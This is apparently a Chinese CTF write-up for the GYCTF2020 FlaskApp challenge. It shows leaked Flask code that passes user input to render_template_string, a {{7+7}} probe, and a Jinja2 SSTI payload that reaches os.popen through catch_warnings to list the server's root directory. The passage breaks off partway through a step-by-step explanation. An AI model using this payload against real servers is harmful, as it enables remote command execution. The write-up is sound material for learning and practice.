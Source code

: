 ```yaml
---
title: GYCTF2020 FlaskApp
date: 2024-05-30 21:04:40
tags: 
      - ssti
      - pin码
categories: 刷题笔记
---
```


## [GYCTF2020]FlaskApp(ssti jinja2模块/pin码)

### 非预期解

我们往解密页面里随便填写，会进入debug页面



![image-20240528212339934](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282123126.png)

我们在这个页面里找到了一些残余代码

![image-20240528212409589](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282124711.png)

```
@app.route('/decode',methods=['POST','GET'])
def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp)
```

用上了flask模块，并且还存在waf绕过，我们考虑ssti模板注入

加密{{7+7}},得到结果e3s3Kzd9fQ==

![image-20240528212537504](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282125612.png)

再进行解密，得到结果14，说明存在ssti注入

![image-20240528212620419](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282126477.png)

我们查看根目录

```
 {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
 
 
 这段代码片段是一个使用Jinja2模板的示例，目的是在服务器上执行潜在的有害命令。下面是它的工作原理：
1. `[].__class__.__base__.__subclasses__()`: 这段代码获取了空列表的类的基类的所有子类。实际上，它返回了所有继承自`object`类的类（也就是Python中的所有类）。

2. `{% for c in [].__class__.__base__.__subclasses__() %}`: 这段代码开始遍历所有的子类。

3. `{% if c.__name__=='catch_warnings' %}`: 这段代码检查当前循环中的类是否是`catch_warnings`类，这是Python警告模块中的一个类。

4. `{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}`: 
    - `c.__init__.__globals__['__builtins__']` 访问`catch_warnings`类的`__init__`方法的全局变量中的`__builtins__`字典。
```